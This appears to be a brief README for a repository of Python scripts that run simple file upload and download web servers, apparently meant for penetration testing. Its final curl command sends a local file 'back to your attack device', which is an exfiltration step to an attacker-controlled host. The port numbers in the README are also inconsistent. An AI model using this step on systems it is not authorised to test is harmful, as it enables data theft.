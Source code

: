 # python-webservers
This repository provides usefull scripts to create python webservers for file upload and download.

# usage
if you have python 2.x installed, then use:
python2 simpleHTTP2.py 8080

if you have python 3.x installed, then use:
python3 simpleHTTP3.py

To Download a file from your webserver use: 
curl -O http://<server-IP>:9999/<FILENAME>

#  Upload a file back to your attack device: 
curl -F 'file=@<FILENAME>' http://<server-IP>:9999/
